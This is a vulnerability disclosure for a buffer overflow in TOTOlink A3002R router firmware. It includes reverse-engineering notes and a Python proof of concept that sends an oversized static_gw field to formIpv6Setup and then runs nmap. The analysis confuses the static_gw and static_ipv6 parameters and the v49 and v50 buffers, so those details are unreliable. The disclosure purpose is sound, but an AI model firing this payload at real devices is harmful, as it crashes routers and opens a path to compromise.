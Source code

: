# TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_gw` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`

![[Snipaste_2025-01-16_22-19-45.png]]
By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v36` variable is passed to `v50` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `static_ipv6` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "static_ipv6" data, and `strcpy` copies the string pointed to by `v36` to `v50` without verifying whether `v49` has enough space to store the copied string. If the string pointed to by `v36` exceeds the size of the `v50` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.

![[Snipaste_2025-01-16_22-22-03.png]]
An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `static_gw` string, potentially causing the program to crash.


# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"*5000
data = "wan_enable=1&OriginType=1&enable_dhcpv6RapidCommit=1&static_ipv6=111&static_gw={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
#print(response.text)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```
